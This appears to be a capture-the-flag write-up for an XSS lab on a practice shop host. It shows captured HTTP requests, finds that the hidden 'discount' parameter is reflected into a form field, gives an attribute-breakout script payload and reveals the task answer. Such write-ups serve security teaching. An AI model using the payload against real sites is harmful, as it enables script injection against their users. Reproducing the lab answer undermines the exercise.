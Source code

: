 <h1 align=center>Cross site scripting attack/XSS</h1>

# TASK 8
## What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

#### to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

## Request

```POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12```

### notice on the http request start line and body

```id=2
add_to_basket=1
discount=12```


### then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

```GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1```

and it also refleted back on the page 

                      ``` <form method="post">
                            <input type="hidden" name="add_to_basket" value="1">
                            <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
                            <input type="submit" class="btn btn-success" value="Add To basket">
                            <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
                        </form>```

notice on the "name="discount" value="12">"

if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

first it will close the value parameter using double quote(") then the code will execute.

look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

```answer = discount```
